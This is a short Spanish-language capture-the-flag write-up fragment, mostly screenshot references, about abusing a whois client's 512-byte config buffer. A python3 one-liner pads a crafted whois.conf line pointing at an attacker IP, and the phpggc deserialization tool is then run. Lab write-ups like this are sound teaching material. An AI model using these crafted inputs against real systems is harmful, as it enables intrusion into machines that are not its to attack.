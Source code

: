 ![](2022-06-21-10-24-55.png)

Buscamos en el whois de github el whois.c para ver la configuración y encontramos como busca la concordancia
![](2022-06-21-10-29-42.png)

Al ver que hay 512 de buffer y que queremos que no lea cierta parte del código que hemos "copiado su extructura" de whois, pues lo quehacemos es meterle una serie de espacions. Como hacemos esto?, por ejemplo:

```pthon3
python3 -c 'print("]*10.10.14.29 10.10.14.29" + " "*500)'
```
![](2022-06-21-10-33-37.png)

Lo guardamos en whois.conf y ejecutamos el phpggc

![](2022-06-21-10-35-12.png)
